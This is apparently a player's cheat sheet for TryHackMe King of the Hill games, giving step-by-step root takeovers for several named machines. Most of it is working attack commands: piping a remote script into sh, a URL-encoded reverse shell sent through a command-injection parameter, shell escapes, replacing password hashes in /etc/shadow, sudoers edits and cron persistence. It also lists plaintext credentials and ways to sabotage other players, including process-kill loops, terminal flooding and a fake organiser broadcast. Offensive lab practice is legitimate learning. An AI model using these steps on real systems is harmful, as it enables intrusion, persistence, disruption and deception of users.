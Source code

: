 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
sudo rm /home/ashu/.ssh/*
sudo rm /var/ftp/*
sudo nano /etc/sudoers
```  
remove ashu and skidy from sudoers

# Fortune:  
Requires: fcrackzip  
  
nc <BOX_IP> 3333  
#returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
Open the zip with the password you got.  Should contain password for fortune account.  
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
sudo su  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for.  

# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



